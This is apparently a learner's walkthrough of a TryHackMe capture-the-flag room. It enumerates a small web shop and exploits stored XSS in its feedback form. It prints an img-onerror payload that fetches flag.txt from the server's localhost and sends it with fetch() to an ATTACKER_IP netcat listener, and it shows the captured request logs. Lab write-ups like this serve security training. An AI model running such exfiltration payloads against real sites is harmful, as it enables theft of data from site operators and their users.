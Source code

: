 This is a TryHackMe CTF room. 
"Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!"

## Enumeration 
started VM with the IP `http://10.10.27.75:8080`. the goal is to get the flag at `http://TARGET_IP:8080/flag.txt`
Started GoBuster using the medium dir list.
```
gobuster dir -u http://10.10.27.75:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.27.75:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/view_feedback        (Status: 401) [Size: 25]
Progress: 220560 / 220561 (100.00%)
```
then scanned all ports on the target machine.
```
sudo nmap -sS -sV -T5 -vv 10.10.27.75 -allports

PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy syn-ack ttl 61 Werkzeug/3.0.1 Python/3.8.10
```
I then cURL'd the target to review the code and found a submit feedback link.
```
<header>
        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/submit_feedback">Feedback</a></li>
        </ul>
    </header>
```
Further investigating reveals that the submit uses a POST method; potential entry point. I tried to go straight to the flag.txt and get a "401 Unauthorized"

Going straight to /submit_feedback shows:
![[Pasted image 20241229221603.png]]
So this shows me that I can potentially exploit the text input.

## Exploring potentials
so there are a couple train of thoughts I considered looking for using BurpSuite and DevTools.
* session cookies
* weird headers
* hidden directories

There are no session cookies or weird headers that stick out to me. However I did discover a /view_feedback directory.  This turned out to be behind a 401 unauthorized response, I don't feel this is relevant.

I tried to validate XSS by submitting a basic script tag to alert XSS. This did not prove to work and sent me down a couple other methods of exploitation that were not promising. I used python to create a couple scripts to group and automate some of these tasks, including:
* Cross-Site Request Forgery (CSRF)
* Insecure Direct Object References (IDOR)
* Local File Inclusion (LFI) or Remote File Inclusion (RFI)
* Reflective File Access
None of these seemed to bare fruit and I started to feel XSS was the answer and started researching potential payloads since the delivery method has to be the text input.

# XSS Exploitation
I determined that XSS had to be the exploit to get the flag, but how? I researched some payloads, I kept getting some basic ones that did not work, I didn't find them though I am sure they exist and I admit I didn't look to hard. I found a write-up on this specific box with the answer obfuscated and skimmed it. 

I would have never got this without help. the payload seems more complicated than I would have been able to write or even find. So the test payload looks like this:

```
<img src=x onerror="fetch('http://ATTACKER_IP:PORT')"/>
```

The payload works as a basic XSS attack. what happens is:
* `<img/>` tag is inserted with the source of x(`src="x"`). Because the source is invalid you need an `onerror` event
* `"fetch()"`: is used to call API's I believe. in this case we are going to insert our attacking ip(`'http://ATTACKER_IP:PORT'`) 
* `PORT`: the port you assign in a netcat listener

This needs to be submitted in the text input once you have a netcat listener setup on a specified port, I used:

```
nc -knvlp 8000
listening on [any] 8000 ...
```

Once listening you can submit the above payload. it will take a second or two to receive a response:

```
nc -knvlp 8000
listening on [any] 8000 ...
connect to [THM_VPN_IP] from (UNKNOWN) [10.10.27.75] 56902
GET / HTTP/1.1
Host: THM_VPN_IP:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

This proves XSS can be achieved. the payload to now get the flag is:

```
<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(r => fetch('http://ATTACKER_IP:PORT/?c=' + r)).catch(e => fetch('http://ATTACKER_IP:PORT/?c=' + e))"/>
```

Okay so lets break this down before submitting, first I had to initiate another listener before submitting. This payload can be parsed as such:
* `"fetch('127.0.0.1:8080/flag.txt')`: This makes a request to the local server of the Target_Machine and 127.0.0.1 is the loopback address. If the flag is stored in a file, this attempts to retrieve its contents.
* `.then(r => r.text())`: If the content in the flag is fetched, the `.text()` method extracts the contents as text.
* `.then(r => fetch('http://ATTACKER_IP:PORT/?c=' + r))`: This section sends the contents to your listener by appending the contents of the flag as a query parameter (`?c=<flag content>`).
* `.catch(e => fetch('http://ATTACKER_IP:PORT/?c=' + e))"`: This catches any errors if for any reason the request to the flag fails. `catch` sends any errors to the attacker, using the (`?c=<error message>`) again.

So with your listener back up and running, submit the final payload. You should see:

```
nc -knvlp 8000
listening on [any] 8000 ...
connect to [THM_VPN_IP] from (UNKNOWN) [10.10.27.75] 45532
GET /?c=THM{█████████████████████████████████████████} HTTP/1.1
Host: THM_VPN_IP:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gec HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

# Summary

* XSS was the vector of exploitation due to the application allowing a user to inject and execute arbitrary JavaScript in the browser.
* I leveraged JavaScript's `fetch()` method to access the flag located on the victims local server and exfil the contents.
* The payload executed successfully due to the lack of input sanitization or proper output encoding by the application, if these measures were in place this would not be an attack vector.

# Conclusion
I did not write or create the payload but after further research I can see how it was put together. Huge shoutout to Jay Bhatt's medium post that provided the payload and a much more concise walkthrough of The Sticker Store box on THM. I personally thought I could exploit a different way and narrowed down to XSS. I worked through my own process till I hit a wall and sought assistance.

Tools used:
* GoBuster
* Nmap
* Burpsuite
* cURL
* NetCat
* Python3